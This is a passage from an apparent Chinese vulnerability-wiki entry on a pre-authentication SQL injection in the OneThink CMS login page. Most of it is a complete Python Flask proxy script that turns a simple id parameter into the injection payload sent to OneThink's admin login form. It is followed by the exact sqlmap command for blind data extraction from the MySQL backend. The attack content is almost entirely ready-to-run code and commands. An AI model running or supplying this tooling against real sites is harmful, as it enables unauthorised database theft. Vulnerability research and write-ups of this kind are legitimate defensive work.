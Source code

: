 首先注入点位置如下图

![15.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId42.png)

    # encoding: utf-8
    # sqli-reverse-flask.py
    from flask import Flask,request,jsonify
    import requests


    def remote_login(payload):
        '''
        对服务器发起访问请求
        '''
        burp0_url = "http://one.think:80/index.php?s=/admin/public/login.html"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest"}
        # )) or 1=1 -- -
        pay = ") =' {} ')-- -".format(payload) # )={payload} ）1 = 1
        print(pay)
        burp0_data = {"act": "verify", "username[0]": 'exp', "username[1]": pay, "password": "", "verify": ""}
        resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False)

        return resp.text

    app = Flask(__name__)
    @app.route('/')
    def login():
        payload =  request.args.get("id")
        print(payload)
        response = remote_login(payload)
        return response

    if __name__ == '__main__':
        app.run()

那么经过这个转发脚本，原本复杂的参数被简化，你只需要在本地对`http://127.0.0.1:5000/?id=1`跑sqlmap即可。原理上其实与写tamper脚本相同，都是让sqlmap能够识别出"简化过的"注入参数。

![16.png](/Users/aresx/Documents/VulWiki/.resource/OneThink前台注入/media/rId43.png)

    python sqlmap.py -u http://127.0.0.1:5000/?id=1  --tech=B --dbms=mysql --batch

参考链接
--------

> https://xz.aliyun.com/t/8081\#toc-1

